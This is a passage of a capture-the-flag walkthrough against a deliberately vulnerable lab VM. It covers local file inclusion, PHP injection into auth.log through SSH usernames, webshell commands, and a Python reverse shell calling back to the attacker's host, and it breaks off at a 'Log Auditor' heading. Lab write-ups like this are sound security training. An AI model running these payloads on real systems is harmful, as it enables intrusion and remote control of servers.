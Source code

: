 # The Ether: EvilScience v1.0.1

This one immediately caught my attention for a number of reasons. For one thing, it has a plot - which always makes trying to get into a machine a bit more fun. It also purports to be very difficult:

`
This challenge is not for beginners. There is a relevant file on this machine that plays an important role in the challenge, do not waste your time trying to de-obfuscate the file, I say this to keep you on track. This challenge is designed test you on multiple areas and it’s not for the feint of heart!
`

The VM is available [here](https://www.vulnhub.com/entry/the-ether-evilscience-v101,212/) and is honestly the most challenging and enjoyable vulnerable VM I have attempted so far. It was strongly reminiscent of some of the harder OSCP labs, and I had a lot of fun doing it. All told, I would say that it took me about half a day to complete.

## Getting Started

As per usual, I began by running `netdiscover` to find the system on my host-only network. Then I ran a quick NMap scan:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-04-16 20:01 BST
Nmap scan report for 192.168.56.101
Host is up (0.00028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:86:D1:5D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Pretty standard results. We have an SSH server and a HTTP server to look at.

## The Ether

Visiting the webserver reveals a pretty standard website based on a template. It's built on PHP and consists of only a few pages, built on a free template called Carinary. Googling around for vulnerabilities related to the template or software versions produced little in the way of results, so I decided to poke around the server itself. It didn't take long, as there is very little functionality available to interact with.

The only thing that stood out to me was the URI. When you visit any page other than the homepage, you get a URL that looks something like this:

`http://192.168.56.101/index.php?file=research.php`

Obviously, the alarm bells immediately went off in my head: "LFI! LFI! LFI"!. It seems like a classic vector for file inclusion. To test whether this is indeed the case, I decided to download the Carinary template myself and have a look at what files it contains. After a couple false starts, I tried this:

`http://192.168.56.101/index.php?file=layout/styles/layout.css`

As we may have expected, this dumps the contents of the layout.css file at the top of our index.php page. It seems we have successful file inclusion - the question is, how can we leverage it to compromise the system?

## Enumerating the LFI

I decided to play around with the LFI a bit more to see what the limitations of my ability to read files is:

```
file=layout/styles/layout.css - successful file inclusion
file=../../../../../../../../../../../../../../../../../../../bin/ls = works
file=../../../../../../../../../../../../../../../../../../../etc/passwd = does not work
file=../../../../../../../../../../../../../../../../../../../var/www/html/index.html = default page
file=../../index.html = apache default page
file=/bin/ls = works
```

This confirms that I can include a variety of files - but not all of them. Some files I would expect to be able to access, like /etc/passwd and /etc/issue, are not accessible to - indicating that whole directories are out of the question. I also found that a lot of the files and directories I would normally use to get PHP code execution are not available, including:

* /var/log/apache2/access.log (and variants)
* /var/log/apache2/error.log (and variants)
* /proc/self/environ
* The php:// scheme is available, but does not seem to work for sending code via POSTDATA.
* The data:// scheme is available, but also does not seem to work for code inclusion.

At this point, getting frustrated, I started going through every file I thought that *may* be accessible. Finally, after a good hour or so of enumeration, I discovered a log file that I have the ability to read: `/var/log/auth.log`. Although special characters in the file caused by browser to get confused, I could access it with curl:

`curl "http://192.168.56.101/index.php?file=/var/log/auth.log"`

This file keeps a rolling record of attempts to login via SSH; including it gives us access to the contents of the file:

```
Nov 23 19:49:48 theEther sudo: pam_unix(sudo:session): session closed for user root
Nov 23 19:49:53 theEther login[842]: pam_unix(login:session): session closed for user evilscience
Nov 23 19:49:53 theEther systemd-logind[782]: Removed session 1.
Nov 23 19:50:00 theEther sshd[872]: Received signal 15; terminating.
Apr 19 16:02:53 theEther systemd-logind[701]: New seat seat0.
Apr 19 16:02:53 theEther systemd-logind[701]: Watching system buttons on /dev/input/event0 (Power Button)
Apr 19 16:02:53 theEther systemd-logind[701]: Watching system buttons on /dev/input/event1 (Sleep Button)
Apr 19 16:02:53 theEther systemd-logind[701]: Watching system buttons on /dev/input/event3 (Video Bus)
Apr 19 16:02:54 theEther sshd[752]: Server listening on 0.0.0.0 port 22.
Apr 19 16:02:54 theEther sshd[752]: Server listening on :: port 22.
Apr 19 16:02:54 theEther sshd[752]: Received SIGHUP; restarting.
Apr 19 16:02:54 theEther sshd[752]: Server listening on 0.0.0.0 port 22.
Apr 19 16:02:54 theEther sshd[752]: Server listening on :: port 22.
Apr 19 16:02:54 theEther sshd[752]: Received SIGHUP; restarting.
Apr 19 16:02:54 theEther sshd[752]: Server listening on 0.0.0.0 port 22.
Apr 19 16:02:54 theEther sshd[752]: Server listening on :: port 22.
Apr 19 16:04:59 theEther sshd[1067]: Invalid user test from 192.168.56.102
Apr 19 16:04:59 theEther sshd[1067]: input_userauth_request: invalid user test [preauth]
Apr 19 16:05:01 theEther sshd[1067]: Connection closed by 192.168.56.102 port 35362 [preauth]
Apr 19 16:05:27 theEther sshd[1069]: Invalid user  from 192.168.56.102
Apr 19 16:05:27 theEther sshd[1069]: input_userauth_request: invalid user  [preauth]
Apr 19 16:05:29 theEther sshd[1069]: Connection closed by 192.168.56.102 port 35366 [preauth]
```

## Getting RCE

It is possible to use the auth.log file to inject PHP code into a page, but it is not easy. Every time a nonexistent user tries and fails to connect via SSH, their username gets logged into the file and remains there until it rolls over. If we're careful with the number of characters we use and make sure to escape shell characters, we can use this property to get very short snippets of PHP code into the auth log.

The first step is to enumerate just how many characters we have to work with. After all, we only get one shot at this. If we inject a PHP snippet and it gets cut off before we get a chance to close it, the entire auth.log file will be useless to us until it rolls over. So I tried:

`ssh "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@192.168.56.101"`

By examining how many characters of the username made it into the included auth.log file, I was able to ascertain my character limit: 30 characters. This is difficult to work with, but doable. Next I tried injecting a simple PHP snippet to test that injection is actually possible

`ssh "<?php echo 'test'; ?>"@192.168.56.101`

This worked, and I could see the word "test" appearing in the contents of auth.log. After a little tinkering on my own machine to avoid breaking auth.log, I came up with the following series of injections:

```
ssh "<?php \$a=\$_GET['a']?>"@192.168.56.101
ssh "<?php echo system(\$a)?> "@192.168.56.101
```

I was able to test this with the following curl command:

`curl "http://192.168.56.101/index.php?file=/var/log/auth.log&a=ls"`

This worked, giving me access to the contents of the `/var/www/html/theEther.com/public_html/` directory.

## Improving My Shell

Although I had achieved a rudimentary PHP shell via `/var/log/auth.log`, there were a couple of problems with it:

* It was transient. The auth.log file cycles regularly, and after a while my shell will disappear.
* It was messy. The output of my commands is interspersed with the contents of the log file.
* It was non-interactive. This means I can't use sudo or any program that requires access to a TTY.

With this in mind, I decided to set about improving my shell. The first problem was tackled easily enough:

`curl "http://192.168.56.101/index.php?file=/var/log/auth.log&a=cp+/var/log/auth.log+shell.php"`

This gave me a permanent copy of auth.log in the local directory that won't be overwritten when the log rolls over. That gave me time to solve the messy and slow nature of the webshell by creating a reverse shell to my machine. The code I used is as follows:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I got this code onto the target machine by hosting it on my own webserver and downloading it onto the target with `wget`. Executing it from the webshell while running `netcat` as a listener was enough to get me a non-interactive reverse shell. I solved the final step with the following Python snippet:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

This was enough to get me a nice interactive shell on the target system.

## The Log Auditor
